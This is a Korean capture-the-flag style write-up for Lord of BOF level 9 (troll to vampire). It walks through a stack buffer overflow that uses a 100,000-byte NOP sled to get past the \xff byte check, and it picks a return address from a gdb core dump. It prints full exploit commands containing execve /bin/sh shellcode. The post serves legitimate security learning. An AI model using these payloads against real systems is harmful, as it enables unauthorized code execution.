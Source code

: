 ```yaml
---
title:  "[LOB] level 9: troll >> vampire "

categories: lob
tags: [lob]

toc: true
toc_sticky: true

date: 2021-12-23 09:05:40

---
```

\xff 를 \x00으로 인식하는 오류를 피해 bash2를 사용합니다

# level 9

**troll / aspirin**

vampire.c 코드 읽기  
![image](https://user-images.githubusercontent.com/69203345/147212223-4dde1944-b3e8-4117-96b9-4b8aee7cc9cf.png)

argc갯수 재한, buffer, argv[1]초기화가 사라지고, argv[1][46]이 \xff 여서는 안된다고 함

argv[1] = 버퍼에 overflow한 값을 넣어주면서 ret 주소를 설정한다.  
argv[2]에 fe가 나올 만큼 nop값을 넣어준다



>./vampire \`python -c 'print "A"\*44+"\xff\xff\xbf\xbf"+" "+"\x90"*100000+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

![image](https://user-images.githubusercontent.com/69203345/147215658-ef4ee776-32f0-4cb8-bbfc-c2dc30d794fa.png)  

coredump도 했으니 gdb로 core확인  
![image](https://user-images.githubusercontent.com/69203345/147215882-e36a70e4-fa12-491a-8b34-a317e8c19a2f.png)  
아래에 더있는데 어차피 9090... 임

9090.. 중에 적당한 위치에 있는 주소를 리턴주소로 사용
0xbffe75f0 을 사용해야겠다

>./vampire \`python -c 'print "A"\*44+"\xf0\x75\xfe\xbf"+" "+"\x90"*100000+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

![image](https://user-images.githubusercontent.com/69203345/147216207-3ae3ad30-21ba-418a-a2af-4d39f93c970e.png)